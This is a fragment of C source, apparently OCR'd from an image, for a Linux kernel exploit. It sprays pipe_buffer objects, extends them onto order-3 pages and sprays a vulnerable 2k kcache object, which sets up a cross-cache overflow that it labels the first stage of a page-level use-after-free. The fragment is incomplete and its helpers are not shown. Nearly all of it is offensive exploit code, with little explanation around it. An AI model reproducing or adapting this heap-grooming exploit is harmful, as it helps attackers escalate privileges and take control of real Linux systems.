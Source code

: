 ```c
#define SND_PIPE_BUF_SZ 96
#define TRD_PIPE_BUF_SZ 192

int pipe_fd[PIPE_SPRAY_NUM][2];
int orig_pid = -1, victim_pid = -1;
int snd_orig_pid = -1, snd_vicitm_pid = -1;
int self_2nd_pipe_pid = -1, self_3rd_pipe_pid = -1, self_4th_pipe_pid = -1;

struct pipe_buffer info_pipe_buf;

int extend_pipe_buffer_to_4k(int start_idx, int nr)
{
    for (int i = 0; i < nr; i++) {
        /* let the pipe_buffer to be allocated on order-3 pages (kmalloc-4k) */
        if (i % 8 == 0) {
            free_page(pgv_8pages_start_idx++);
        }

        /* a pipe_buffer on 1k is for 16 pages, so 4k for 64 pages */
        if (fcntl(pipe_fd[start_idx + i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0) {
            printf("[x] failed to extend %d pipe!\n", start_idx + i);
            return -1;
        }
    }

    return 0;
}

/**
 *  V - FIRST exploit stage - cross-cache overflow to make page-level UAF
*/

void corrupting_first_level_pipe_for_page_uaf(void)
{
    char buf[0x1000];

    puts("[*] spray pipe_buffer...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i ++) {

        if (pipe(pipe_fd[i]) < 0) {
            printf("[x] failed to alloc %d pipe!", i);
            err_exit("FAILED to create pipe!");
        }
    }

    /* spray pipe_buffer on order-2 pages, make vul-obj slub around with that.*/

    puts("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(0, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }

    puts("[*] spray vulnerable 2k obj...");
    free_page(pgv_8pages_start_idx++);
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_alloc(i, 8, "arttnba3");
    }

    puts("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(PIPE_SPRAY_NUM / 2, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }

```